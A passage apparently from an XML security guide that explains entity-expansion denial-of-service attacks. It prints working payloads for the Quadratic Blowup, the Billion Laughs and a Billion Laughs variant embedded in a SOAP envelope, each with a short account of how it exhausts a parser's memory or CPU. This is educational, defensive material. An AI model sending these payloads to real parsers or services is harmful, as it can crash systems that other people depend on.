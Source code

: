 ##### Quadratic Blowup¶
Instead of defining multiple small, deeply nested entities, the attacker in this scenario defines one very large entity and refers to it as many times as possible, resulting in a quadratic expansion (O(n^2)).
The result of the following attack will be 100,000 x 100,000 characters in memory.
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">
]>
<root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root>

##### Billion Laughs¶
When an XML parser tries to resolve the external entities included within the following code, it will cause the application to start consuming all of the available memory until the process crashes. This is an example XML document with an embedded DTD schema including the attack:
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<root>&LOL9;</root>

The entity LOL9 will be resolved as the 10 entities defined in LOL8; then each of these entities will be resolved in LOL7 and so on. Finally, the CPU and/or memory will be affected by parsing the 3 x 10^9 (3,000,000,000) entities defined in this schema, which could make the parser crash.
The Simple Object Access Protocol (SOAP) specification forbids DTDs completely. This means that a SOAP processor can reject any SOAP message that contains a DTD. Despite this specification, certain SOAP implementations did parse DTD schemas within SOAP messages.
The following example illustrates a case where the parser is not following the specification, enabling a reference to a DTD in a SOAP message:
<?XML VERSION="1.0" ENCODING="UTF-8"?>
<!DOCTYPE SOAP-ENV:ENVELOPE [
 <!ELEMENT SOAP-ENV:ENVELOPE ANY>
 <!ATTLIST SOAP-ENV:ENVELOPE ENTITYREFERENCE CDATA #IMPLIED>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               XMLNS:SOAP="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/">
 <SOAP:BODY>
  <KEYWORD XMLNS="URN:PARASOFT:WS:STORE">FOO</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>
